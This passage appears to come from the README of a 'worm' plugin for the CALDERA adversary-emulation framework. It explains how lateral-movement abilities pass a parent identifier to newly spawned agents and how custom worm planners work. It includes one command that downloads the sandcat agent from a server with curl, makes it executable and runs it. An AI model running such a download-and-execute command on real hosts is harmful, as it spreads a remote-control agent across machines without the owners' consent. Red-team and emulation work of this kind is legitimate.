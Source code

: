 ### Note 2: build the 'agents family tree'

To build the 'agents family tree' we need to add - in the abilites that performs lateral movements - the
<b>father parameter</b> to the delivery command for new agents. Example:
```
do curl -sk -X POST -H 'file:sandcat.go' -H 'platform:linux' #{server}/file/download > /tmp/sandcat-linux && chmod +x /tmp/sandcat-linux && /tmp/sandcat-linux -server #{server} -group #{group} -father #{paw};
```

![alt text](https://github.com/EmilioPanti/worm/blob/master/docs/img/worm3.png)

(Note: if the father parameter is used correctly there should never be an orphan agent)

## WORM-PLANNERS

As with normal CALDERA operations, custom planners can also be used for worm-operations. To do this, just insert the relevant .yml file in the data/planners folder.
Unlike planners for normal CALDERA operations - they only need to implement the execute function - the planners for worm operations has to implement the two following functions:
1) <b>create_links</b>: given a worm-operation and an agent, it generates all possible links for the next phase that the agent must execute.
2) <b>create_cleanup_links</b>: given a worm-operation and an agent, it generates the cleanup links for the phases executed by the agent.

### The worm_sequential planner

It's the default planner for worm-operations: like its counterpart to normal CALDERA operations, it orders the generated links according to their score in descending order.
